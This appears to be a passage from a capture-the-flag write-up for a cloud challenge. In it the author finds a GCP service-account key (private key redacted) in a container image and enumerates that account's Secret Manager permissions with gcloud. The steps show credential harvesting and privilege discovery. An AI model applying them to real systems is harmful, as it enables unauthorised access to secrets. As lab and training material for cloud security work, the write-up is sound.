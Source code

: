 🚩

## Flag 09

In the container image we just pulled, there's a `.gcp` directory next to the previous flag, which contains credentials for the `sa-secretmgr@aisaas-project-474522.iam.gserviceaccount.com` service account:

```console
# ls -al .gcp
total 12
drwxr-xr-x 1 root root 4096 Oct 13 21:03 .
drwx------ 1 root root 4096 Oct 21 11:15 ..
-rw------- 1 root root 2385 Oct 13 16:23 service-account-key.json
# cat .gcp/service-account-key.json
{
  "type": "service_account",
  "project_id": "aisaas-project-474522",
  "private_key_id": "e1bc7b3afcdd5ad98882b85ca0bd6d4672545966",
  "private_key": "-----BEGIN PRIVATE KEY-----\n[redacted]\n-----END PRIVATE KEY-----\n",
  "client_email": "sa-secretmgr@aisaas-project-474522.iam.gserviceaccount.com",
  "client_id": "107941369001496429040",
  "auth_uri": "https://accounts.google.com/o/oauth2/auth",
  "token_uri": "https://oauth2.googleapis.com/token",
  "auth_provider_x509_cert_url": "https://www.googleapis.com/oauth2/v1/certs",
  "client_x509_cert_url": "https://www.googleapis.com/robot/v1/metadata/x509/sa-secretmgr%40aisaas-project-474522.iam.gserviceaccount.com",
  "universe_domain": "googleapis.com"
}
```

Using more gcloud CLI IAM commands and the following snippet from the project IAM policy, we can see what permissions this account has:

```yaml
- members:
  - serviceAccount:sa-secretmgr@aisaas-project-474522.iam.gserviceaccount.com
  role: projects/aisaas-project-474522/roles/secretmgrcustom
```

```console
$ gcloud iam roles describe --project aisaas-project-474522 secretmgrcustom
description: 'Created on: 2025-10-14'
etag: BwZBH3nJlo0=
includedPermissions:
- secretmanager.secrets.getIamPolicy
- secretmanager.secrets.list
- secretmanager.versions.access
- secretmanager.versions.list
name: projects/aisaas-project-474522/roles/secretmgrcustom
stage: ALPHA
title: secretmgr-custom
```
